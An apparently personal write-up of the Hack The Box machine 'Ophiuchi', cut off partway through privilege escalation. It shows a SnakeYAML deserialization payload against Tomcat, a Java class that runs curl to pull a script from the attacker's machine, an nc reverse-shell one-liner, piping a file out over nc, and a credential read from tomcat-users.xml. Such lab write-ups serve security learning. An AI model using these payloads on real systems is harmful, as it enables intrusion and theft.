



---
search:
  exclude: true
---
# Ophiuchi Writeup

## Introduction :

Ophiuchi is a Medium Linux box released back in Febuary 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Tenet]
    → nmap -vvv -p- 10.10.10.227 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 8080/tcp on 10.10.10.227
    Discovered open port 22/tcp on 10.10.10.227
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Tenet]
    → nmap -sCV -p 22,8080 10.10.10.227
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 15:12 CEST
    Nmap scan report for 10.10.10.227
    Host is up (0.48s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
    |   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
    |_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
    8080/tcp open  http    Apache Tomcat 9.0.38
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Parse YAML
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 28.74 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up Apache Tomcat running on port 8080 so let's investigate it: 

So the webserver is apparently a YAML parser, similarly to the [Time](64.md) box, this is probably about deserialization, however unlike for the Time box, giving it random data does not necessarily reveal the backend that's being used. Rather we can simply base our assumption that it is running a java backend because we saw that we were on apache tomcat. So let's look for YAML java deserialization payload by googling a bit, and we stumble upon [this](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) article, so let's first verify that this webserver is vulnerable with the following payload:
    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.8:9090"]
      ]]
    ]
    

` 

And it looks like the webserver is vulnerable to that deserialization! Now let's get another payload from [this](https://github.com/artsploit/yaml-payload) github repository, this time we need a YAML payload with the .jar extention: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Ophiuchi]
    → git clone https://github.com/artsploit/yaml-payload
    Cloning into 'yaml-payload'...
    remote: Enumerating objects: 10, done.
    remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 10
    Receiving objects: 100% (10/10), done.
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Ophiuchi]
    → cd yaml-payload
    
    

Now before we get started, let's first prepare our payloads. We want the box to download a **shell.sh** file from our box which contains a reverse shell payload in it, we want the box to save it in **/tmp** and then we want the box to run it. 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → vim shell.sh
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → cat shell.sh
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f
    

Now we make the first payload to make the box download our shell.sh file: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → vim src/artsploit/AwesomeScriptEngineFactory.java
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → cat src/artsploit/AwesomeScriptEngineFactory.java
    package artsploit;
    
    import javax.script.ScriptEngine;
    import javax.script.ScriptEngineFactory;
    import java.io.IOException;
    import java.util.List;
    
    public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    
        public AwesomeScriptEngineFactory() {
            try {
                Runtime.getRuntime().exec("**curl http://10.10.14.8:9090/shell.sh -o /tmp/shell.sh** ");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    
    [...]
    

Once that's done we compile it: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → javac src/artsploit/AwesomeScriptEngineFactory.java
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → jar -cvf yaml-payload1.jar -C src/ .
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1640) (out= 702)(deflated 57%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1513) (out= 413)(deflated 72%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → ls -l
    total 16
    -rw-r--r-- 1 nothing nothing  623 Jul  5 15:55 README.md
    -rw-r--r-- 1 nothing nothing   78 Jul  5 16:44 shell.sh
    drwxr-xr-x 4 nothing nothing 4096 Jul  5 15:55 src
    -rw-r--r-- 1 nothing nothing 2231 Jul  5 18:32 yaml-payload1.jar
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    

Now that's ready, let's make the box get our jar file at the url **http://10.10.14.8:9090/yaml-payload1.jar** using the following payload: 
    
    
    [firefox session]
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.8:9090/yaml-payload1.jar"]
      ]]
    ]
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.10.10.227 - - [05/Jul/2021 18:41:16] "GET /yaml-payload1.jar HTTP/1.1" 200 -
    10.10.10.227 - - [05/Jul/2021 18:41:16] "GET /yaml-payload1.jar HTTP/1.1" 200 -
    
    

Now we know it downloaded our .jar file, however it didn't download our shell.sh file, looking at the error that occured we see why: 

    
    
    Root Cause
    
    java.lang.UnsupportedClassVersionError: artsploit/AwesomeScriptEngineFactory has been compiled by a more recent version of the Java Runtime (class file version 61.0), this version of the Java Runtime only recognizes class file versions up to 55.0
    	
    

If you get this problem, purge out the version of java you're using and get JDK 11: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → sudo apt remove openjdk-17-jdk
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → sudo apt autoremove -y
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → sudo apt install openjdk-11-jdk
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → javac -version
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    javac 11.0.11
    
    

Now that's done we repeat the previous steps: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → javac src/artsploit/AwesomeScriptEngineFactory.java
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → jar -cvf yaml-payload1.jar -C src/ .
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1640) (out= 694)(deflated 57%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1513) (out= 413)(deflated 72%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → ls -l
    total 16
    -rw-r--r-- 1 nothing nothing  623 Jul  5 15:55 README.md
    -rw-r--r-- 1 nothing nothing   78 Jul  5 16:44 shell.sh
    drwxr-xr-x 4 nothing nothing 4096 Jul  5 15:55 src
    -rw-r--r-- 1 nothing nothing 2223 Jul  5 19:45 yaml-payload1.jar
    
    

We run the previous java YAML deserialization payload in firefox, and we see the following:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.10.10.227 - - [05/Jul/2021 19:47:29] "GET /yaml-payload1.jar HTTP/1.1" 200 -
    10.10.10.227 - - [05/Jul/2021 19:47:30] "GET /yaml-payload1.jar HTTP/1.1" 200 -
    10.10.10.227 - - [05/Jul/2021 19:47:31] "GET /shell.sh HTTP/1.1" 200 -
    

Here we see a better result, the shell.sh file actually got downloaded, so now from here we make a second payload to execute that shell.sh file: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → vim src/artsploit/AwesomeScriptEngineFactory.java
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → cat src/artsploit/AwesomeScriptEngineFactory.java
    package artsploit;
    
    import javax.script.ScriptEngine;
    import javax.script.ScriptEngineFactory;
    import java.io.IOException;
    import java.util.List;
    
    public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    
        public AwesomeScriptEngineFactory() {
            try {
                Runtime.getRuntime().exec("bash /tmp/shell.sh");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → javac src/artsploit/AwesomeScriptEngineFactory.java
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → jar -cvf yaml-payload2.jar -C src/ .
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1605) (out= 666)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1478) (out= 388)(deflated 73%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → ls -l
    total 20
    -rw-r--r-- 1 nothing nothing  623 Jul  5 15:55 README.md
    -rw-r--r-- 1 nothing nothing   78 Jul  5 16:44 shell.sh
    drwxr-xr-x 4 nothing nothing 4096 Jul  5 15:55 src
    -rw-r--r-- 1 nothing nothing 2223 Jul  5 19:45 yaml-payload1.jar
    -rw-r--r-- 1 nothing nothing 2170 Jul  5 19:57 yaml-payload2.jar
    
    

Now we use the following payload on the yaml parser: 
    
    
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.8:9090/yaml-payload2.jar"]
      ]]
    ]
    
    

And we see the following result: 
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/yaml-payload]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.10.10.227 - - [05/Jul/2021 20:00:00] "GET /yaml-payload2.jar HTTP/1.1" 200 -
    10.10.10.227 - - [05/Jul/2021 20:00:01] "GET /yaml-payload2.jar HTTP/1.1" 200 -
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [HTB/Ophiuchi/yaml-payload]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.227] 44856
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    
    

Now that we got a reverse shell, upgrade it to a fully interactive TTY: 
    
    
    $ which python python3 wget curl bash
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    /usr/bin/bash
    $ python3 -c 'import pty;pty.spawn("/usr/bin/bash")'
    tomcat@ophiuchi:/$ ^Z
    [1]  + 573820 suspended  nc -lvnp 9001
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [HTB/Ophiuchi/yaml-payload]
    → stty raw -echo ; fg
    [1]  + 573820 continued  nc -lvnp 9001
                                          export TERM=screen-256color
    tomcat@ophiuchi:/$ export SHELL=bash
    tomcat@ophiuchi:/$ stty rows 50 cols 200
    tomcat@ophiuchi:/$ reset
    
    

Now since this is a tomcat service let's see if there are any plaintext credentials in the config files: 
    
    
    tomcat@ophiuchi:/$ cd ~
    
    tomcat@ophiuchi:~$ ls
    bin  BUILDING.txt  conf  CONTRIBUTING.md  lib  LICENSE  logs  NOTICE  README.md  RELEASE-NOTES  RUNNING.txt  temp  webapps  work
    
    tomcat@ophiuchi:~$ cd conf
    
    tomcat@ophiuchi:~/conf$ ls
    catalina.policy  catalina.properties  context.xml  jaspic-providers.xml  jaspic-providers.xsd  logging.properties  server.xml  tomcat-users.xml  tomcat-users.xsd  web.xml
    
    tomcat@ophiuchi:~/conf$ cat tomcat-users.xml
    
    [...]
    
    tomcat-users xmlns="http://tomcat.apache.org/xml"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
            version="1.0">
    user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
    
    /tomcat-users>
    
    [...]
    
    

And here we have credentials **admin:whythereisalimit**! So let's 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [HTB/Ophiuchi/yaml-payload]
    → ssh admin@10.10.10.227
    The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
    ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
    admin@10.10.10.227's password:
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon 05 Jul 2021 06:20:18 PM UTC
    
      System load:             0.08
      Usage of /:              19.9% of 27.43GB
      Memory usage:            10%
      Swap usage:              0%
      Processes:               222
      Users logged in:         0
      IPv4 address for ens160: 10.10.10.227
      IPv6 address for ens160: dead:beef::250:56ff:feb9:83
    
    
    176 updates can be installed immediately.
    56 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    
    Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
    admin@ophiuchi:~$ id
    uid=1000(admin) gid=1000(admin) groups=1000(admin)
    admin@ophiuchi:~$ cat user.txt
    ebXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag! 

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user, we need to take a look at what the current user can run as root: 
    
    
    admin@ophiuchi:~$ sudo -l
    Matching Defaults entries for admin on ophiuchi:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User admin may run the following commands on ophiuchi:
        (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
    
    admin@ophiuchi:~$ ls -lash /opt/wasm-functions/index
    2.5M -rwxr-xr-x 1 root root 2.5M Oct 14  2020 /opt/wasm-functions/index
    
    admin@ophiuchi:~$ ls -lash /opt/wasm-functions/index.go
    4.0K -rw-rw-r-- 1 root root 522 Oct 14  2020 /opt/wasm-functions/index.go
    
    

So here we can run a go file called **index.go** in the **/opt/wasm-functions/** directory as the root user. let's take a look at what it does:
    
    
    admin@ophiuchi:~$ cat /opt/wasm-functions/index.go
    package main
    
    import (
            "fmt"
            wasm "github.com/wasmerio/wasmer-go/wasmer"
            "os/exec"
            "log"
    )
    
    
    func main() {
            bytes, _ := wasm.ReadBytes("main.wasm")
    
            instance, _ := wasm.NewInstance(bytes)
            defer instance.Close()
            init := instance.Exports["info"]
            result,_ := init()
            f := result.String()
            if (f != "1") {
                    fmt.Println("Not ready to deploy")
            } else {
                    fmt.Println("Ready to deploy")
                    out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                    if err != nil {
                            log.Fatal(err)
                    }
                    fmt.Println(string(out))
            }
    }
    
    

When we run it we get the following: 
    
    
    
    admin@ophiuchi:/tmp$ /usr/bin/go run /opt/wasm-functions/index.go
    /opt/wasm-functions/index.go:5:2: cannot find package "github.com/wasmerio/wasmer-go/wasmer" in any of:
            /usr/lib/go-1.13/src/github.com/wasmerio/wasmer-go/wasmer (from $GOROOT)
            /home/admin/go/src/github.com/wasmerio/wasmer-go/wasmer (from $GOPATH)
    
    admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    panic: runtime error: index out of range [0] with length 0
    
    goroutine 1 [running]:
    github.com/wasmerio/wasmer-go/wasmer.NewInstanceWithImports.func1(0x0, 0x0, 0xc000040c90, 0x5d1200, 0x200000003)
            /root/go/src/github.com/wasmerio/wasmer-go/wasmer/instance.go:94 +0x201
    github.com/wasmerio/wasmer-go/wasmer.newInstanceWithImports(0xc000086020, 0xc000040d48, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0xc000040d70)
            /root/go/src/github.com/wasmerio/wasmer-go/wasmer/instance.go:137 +0x1d3
    github.com/wasmerio/wasmer-go/wasmer.NewInstanceWithImports(0x0, 0x0, 0x0, 0xc000086020, 0x0, 0x0, 0x0, 0x0, 0x0, 0x4e6180, ...)
            /root/go/src/github.com/wasmerio/wasmer-go/wasmer/instance.go:87 +0xa6
    github.com/wasmerio/wasmer-go/wasmer.NewInstance(0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x4e6180, 0x1)
            /root/go/src/github.com/wasmerio/wasmer-go/wasmer/instance.go:82 +0xc9
    main.main()
            /opt/wasm-functions/index.go:14 +0x6d
    exit status 2
    
    admin@ophiuchi:/tmp$ cd /opt/wasm-functions/
    admin@ophiuchi:/opt/wasm-functions$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Not ready to deploy
    
    admin@ophiuchi:/opt/wasm-functions$ cd backup/
    admin@ophiuchi:/opt/wasm-functions/backup$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Not ready to deploy
    
    

So basically, when we look back at the index.go file, we see that it reads the **main.wasm** file in the current directory, and then it checks if the **f** variable is not equal to **1** to say 'not ready to deploy' However if that f variable were actually equal to 1, it would execute the **deploy.sh** file in the current directory. So we basically we need to modify that main.wasm file to set that f variable to 1, and then we're going to use our shell.sh file and rename it deploy.sh to get a reverse shell. So let's first get the main.wasm to our local machine using netcat:
    
    
    [terminal 1]
    admin@ophiuchi:/opt/wasm-functions$ ls -lash main.wasm
    1.5M -rwxrwxr-x 1 root root 1.5M Oct 14  2020 main.wasm
    admin@ophiuchi:/opt/wasm-functions$ cat main.wasm | nc 10.10.14.8 9001
    admin@ophiuchi:/opt/wasm-functions$ md5sum main.wasm
    25a1a35c819577d06c8cc751bf9a2ea3  main.wasm
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → nc -lvnp 9001 > main.wasm
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.227] 46088
    ^C
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → md5sum main.wasm
    25a1a35c819577d06c8cc751bf9a2ea3  main.wasm
    
    

Now that we downloaded the file locally we need to 'decrypt it', because as you probably guessed it, this is a binary/compiled file: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → cat main.wasm | xxd | head -n20
    00000000: 0061 736d 0100 0000 0105 0160 0001 7f03  .asm.......`....
    00000010: 0201 0004 0501 7001 0101 0503 0100 1006  ......p.........
    00000020: 1903 7f01 4180 80c0 000b 7f00 4180 80c0  ....A.......A...
    00000030: 000b 7f00 4180 80c0 000b 072c 0406 6d65  ....A......,..me
    00000040: 6d6f 7279 0200 0469 6e66 6f00 000a 5f5f  mory...info...__
    00000050: 6461 7461 5f65 6e64 0301 0b5f 5f68 6561  data_end...__hea
    00000060: 705f 6261 7365 0302 0a06 0104 0041 000b  p_base.......A..
    00000070: 00d5 d016 0b2e 6465 6275 675f 696e 666f  ......debug_info
    00000080: f3a0 0200 0400 0000 0000 0401 0000 0000  ................
    00000090: 1c00 3900 0000 0000 0000 5000 0000 0000  ..9.......P.....
    000000a0: 0000 400a 0100 0281 0000 0002 8600 0000  ..@.............
    000000b0: 028a 0000 0003 0000 0000 0d00 0000 07ed  ................
    000000c0: 0300 0000 009f 463e 0300 8c3e 0300 016d  ......F>...>...m
    000000d0: 0300 0000 000c 0000 0007 ed03 0000 0000  ................
    000000e0: 9fcc 3e03 0012 3f03 0001 6d03 0000 0000  ..>...?...m.....
    000000f0: 0d00 0000 07ed 0300 0000 009f 313f 0300  ............1?..
    00000100: 773f 0300 016d 0300 0000 000d 0000 0007  w?...m..........
    00000110: ed03 0000 0000 9f85 3f03 00cb 3f03 0001  ........?...?...
    00000120: 6d04 3522 0300 7122 0300 01a3 0104 7a22  m.5"..q"......z"
    00000130: 0300 c122 0300 01c3 0105 d422 0300 c122  ..."......."..."
    
    

To decrypt it we're going to use [wabt](https://github.com/WebAssembly/wabt/releases): 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → mv ~/Downloads/wabt-1.0.23-ubuntu.tar.gz .
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → tar -xzvf wabt-1.0.23-ubuntu.tar.gz
    wabt-1.0.23/
    wabt-1.0.23/include/
    wabt-1.0.23/include/wasm-rt.h
    wabt-1.0.23/include/wasm-rt-impl.h
    wabt-1.0.23/share/
    wabt-1.0.23/share/man/
    wabt-1.0.23/share/man/man1/
    wabt-1.0.23/share/man/man1/wasm-decompile.1
    wabt-1.0.23/share/man/man1/wasm-validate.1
    wabt-1.0.23/share/man/man1/wasm-strip.1
    wabt-1.0.23/share/man/man1/wasm2wat.1
    wabt-1.0.23/share/man/man1/spectest-interp.1
    wabt-1.0.23/share/man/man1/wasm-interp.1
    wabt-1.0.23/share/man/man1/wat2wasm.1
    wabt-1.0.23/share/man/man1/wat-desugar.1
    wabt-1.0.23/share/man/man1/wasm2c.1
    wabt-1.0.23/share/man/man1/wasm-objdump.1
    wabt-1.0.23/share/man/man1/wast2json.1
    wabt-1.0.23/share/man/man1/wasm-opcodecnt.1
    wabt-1.0.23/lib/
    wabt-1.0.23/lib/libwasm-rt-impl.a
    wabt-1.0.23/bin/
    wabt-1.0.23/bin/wasm2wat
    wabt-1.0.23/bin/wat-desugar
    wabt-1.0.23/bin/wasm-strip
